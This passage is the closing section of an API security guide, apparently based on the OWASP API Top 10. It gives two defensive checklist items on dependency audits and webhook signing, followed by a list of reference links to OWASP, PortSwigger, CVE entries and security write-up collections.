✅ Audit third-party API dependencies regularly (SBOM)
✅ Sign webhook payloads and verify signatures
```

---

## 📚 References

- [OWASP API Security Top 10 2023](https://owasp.org/API-Security/editions/2023/en/0x00-header/)
- [OWASP API Security GitHub](https://github.com/OWASP/API-Security)
- [APIsec University — OWASP API Top 10](https://university.apisec.ai/)
- [PortSwigger Web Security Academy — API Testing](https://portswigger.net/web-security/api-testing)
- [CVE-2021-26855 (ProxyLogon — SSRF)](https://nvd.nist.gov/vuln/detail/CVE-2021-26855)
- [Capital One Breach Analysis (SSRF → AWS credentials)](https://krebsonsecurity.com/2019/07/what-we-can-learn-from-the-capital-one-hack/)
- [HackerOne — Top API Vulnerabilities](https://www.hackerone.com/vulnerability-and-security-testing/api-security-testing)
- [Bug Bounty Writeups — API Security](https://pentester.land/list-of-bug-bounty-writeups.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Awesome API Security](https://github.com/arainho/awesome-api-security)
